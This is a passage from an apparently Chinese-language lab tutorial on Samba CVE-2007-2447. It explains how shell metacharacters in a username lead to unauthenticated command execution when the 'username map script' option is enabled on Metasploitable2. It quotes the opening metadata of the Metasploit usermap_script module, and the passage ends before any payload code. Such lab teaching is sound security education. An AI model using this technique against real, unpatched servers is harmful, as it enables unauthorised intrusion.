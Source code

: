 + CVE 安全组织索引号：[CVE-2007-2447](http://cvedetails.com/cve/cve-2007-2447)
+ 影响的系统版本：Samba Samba 3.0.0 - 3.0.25rc3
+ Samba 官方漏洞描述：[http://samba.org/samba/security/CVE-2007-2447.html](http://samba.org/samba/security/CVE-2007-2447.html)

### 8.2 漏洞描述

Samba 本身是一个实现 Server Messages Block 协议提供跨平台文件共享服务的应用。

这个漏洞出现的前提是使用了 “username map script” 配置选项，这个选项不是默认的，但在 Metasploitable2 系统中是打开的。

漏洞出现在 Samba 处理 SAM 数据库更新用户口令的代码时，没有对代码进行严格的过滤，便把用户的所有输入信息直接传递给了 `/bin/sh` Shell 执行。从而当设定的用户名中有一些命令字符的时候，我们可以执行任意的系统命令。

### 8.3 攻击模块

我们在本次实验中使用的是 Metasploit 框架下的 Samba 攻击模块，该模块使用 Ruby 语言编写，源代码链接如下：

+ [exploit/multi/samba/usermap_script](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb)

攻击模块的代码讲解，包含关键步骤的注释信息：

本次使用的攻击模块代码量很少，不懂 Ruby 也没有关系，只需要了解代码中的大概逻辑。如果对攻击模块的编写感兴趣，可以学习下 Ruby 再来深入研究模块编程细节。


```
...

# 引入 MSF 框架核心模块
require 'msf/core'

# 定义 MSF 模块类
class MetasploitModule < Msf::Exploit::Remote
  ...
  
  # 引入 Samba Client 
  include Msf::Exploit::Remote::SMB::Client

  ...

  # 初始化模块，包含模块名称，描述，作者，License，漏洞索引号，平台等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Samba "username map script" Command Execution',
      'Description'    => %q{
          This module exploits a command execution vulerability in Samba
        versions 3.0.20 through 3.0.25rc3 when using the non-default
        "username map script" configuration option. By specifying a username
        containing shell meta characters, attackers can execute arbitrary
        commands.

        No authentication is needed to exploit this vulnerability since
        this option is used to map usernames prior to authentication!
      },
      'Author'         => [ 'jduck' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2007-2447' ],
          [ 'OSVDB', '34700' ],
          [ 'BID', '23972' ],
          [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
          [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
```